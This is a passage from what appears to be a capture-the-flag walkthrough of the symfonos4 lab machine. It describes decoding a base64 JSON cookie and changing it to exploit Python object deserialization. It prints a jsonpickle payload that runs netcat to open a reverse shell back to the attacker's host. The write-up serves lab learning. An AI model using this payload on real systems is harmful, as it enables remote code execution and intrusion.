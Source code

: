![](/assets/images/symfonos4/screenshot-10.png)
If we notice the cookie value is encoded in base64, we decode it and see that the data is in json format.

![](/assets/images/symfonos4/screenshot-11.png)

Then we modify the data slightly according to the specifications of the proof of concept, we import the os module and then we use the system method to execute commands from the system, in this case the netcat utility to obtain a reverse shell. 

```console
username={"py/object": "app.User", "py/repr":"os/os.system(\"nc 192.168.179.1 443 -c bash\")"}
```
